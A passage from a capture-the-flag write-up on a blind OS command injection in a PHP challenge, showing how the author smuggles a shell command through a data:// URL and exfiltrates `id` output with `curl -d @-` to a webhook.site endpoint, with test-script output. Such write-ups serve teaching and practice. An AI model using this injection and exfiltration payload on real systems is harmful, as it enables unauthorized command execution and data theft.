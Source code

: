This is because the executed OS command didn't reflect back to us. Hence, this is a **blind** OS command injection vulnerability.

There're many ways to exfiltrate the executed OS command result, such as:
- Write the result into a publicly accessible path, like `/var/www/html/`
- DNS exfiltration

For me, I'll using an exfiltration method that i've learned in [PortSwigger Web Security Academy](https://portswigger.net/web-security), which is via `curl`.

In `curl` command, we can **read the stdin (standard input) and send the contents as the body of a POST request** using the `-d @-` argument.

Now, we can use any webhook services like [webhook.site](https://webhook.site) or host our own web application to receive the exfiltrated POST request.

For simplicity, I'll be using [webhook.site](https://webhook.site).

To test this, we'll modify the payload to this:

```php
$payload = "'' && id | base64 | curl -d @- https://webhook.site/<your_webhook_id> #";
```

> Note: The `base64` encoding is optional, it makes the exfiltrate data more readable when we receive it.

Let's run the test script!

```shell
┌[siunam♥Mercury]-(~/ctf/TFC-CTF-2024/Web/SAFE_CONTENT)-[2024.08.05|15:31:21(HKT)]
└> php test.php
[*] Payload: '' && id | base64 | curl -d @- https://webhook.site/367aade8-0921-466e-b2c7-a27889efe898 #
[*] URL: data://text@localhost/plain,JycgJiYgaWQgfCBiYXNlNjQgfCBjdXJsIC1kIEAtIGh0dHBzOi8vd2ViaG9vay5zaXRlLzM2N2FhZGU4LTA5MjEtNDY2ZS1iMmM3LWEyNzg4OWVmZTg5OCAj
[*] Parsed URL:
array(4) {
  ["scheme"]=>
  string(4) "data"
  ["host"]=>
  string(9) "localhost"
  ["user"]=>
  string(4) "text"
  ["path"]=>
  string(127) "/plain,JycgJiYgaWQgfCBiYXNlNjQgfCBjdXJsIC1kIEAtIGh0dHBzOi8vd2ViaG9vay5zaXRlLzM2N2FhZGU4LTA5MjEtNDY2ZS1iMmM3LWEyNzg4OWVmZTg5OCAj"
}
[*] Final content: '' && id | base64 | curl -d @- https://webhook.site/367aade8-0921-466e-b2c7-a27889efe898 #
[*] Executed OS command: echo '' && id | base64 | curl -d @- https://webhook.site/367aade8-0921-466e-b2c7-a27889efe898 # | base64 > /tmp/20240805073128.tfc > /dev/null 2>&1
[...]
```

We should be able to see an incoming POST request in our webhook:
